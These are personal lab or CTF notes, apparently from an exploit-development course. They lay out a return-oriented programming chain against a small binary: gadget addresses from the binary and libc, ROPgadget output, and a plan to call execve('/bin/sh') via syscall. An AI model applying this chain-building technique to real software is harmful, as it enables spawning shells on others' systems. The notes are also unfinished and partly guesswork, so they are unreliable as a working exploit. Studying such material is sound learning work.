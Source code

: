 So NOW, we can calculate our offsets and stuff!

# Gadgets
```
  retAddr(main) --> 0x40062e    // Addr(A) --> pop rdi ; ret
		 rsp(A) --> 0x400708    // Addr('/bin/sh')
     retAddr(A) --> 0x400636    // Addr(B) --> pop rsi ; ret
		 rsp(B) --> 0x00
     retAddr(B) --> 0x40063e    // Addr(C) --> pop rdx ; ret
		 rsp(C) --> 0x00
     retAddr(C) --> 0x400646    // Addr(D) --> pop rax ; ret
		 rsp(D) --> 0x3b        // execve
     retAddr(D) --> 0x400625    // Addr(E) --> syscall
     retAddr(E) --> 0x4004a9    // Addr(F) --> ret
```
## Local LibC  `libc.so.6`
### `popRDI`
```
0x00000000004006b3 : pop rdi ; ret
```
### `popRSI`
This one is in the library:
```
0x0000000000029419 : pop rsi ; ret
```
This one is in the code but requires some junk data:
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ ROPgadget --binary rop | grep -i "pop rsi"              
0x00000000004006b1 : pop rsi ; pop r15 ; ret
```
### `popRDX`
This one is in the library:
```
0x00000000000fd6bd : pop rdx ; ret
```
Is that the offset or the address? I'm thinking offset which would be nice
### `popRAX`
This one is in the library:
```
0x000000000003f587 : pop rax ; ret
```
### `syscall`
This one is in the library:
```
0x0000000000026468 : syscall
```
### `ret`
Back to one in the binary:
```
0x00000000004004a9 : ret
```

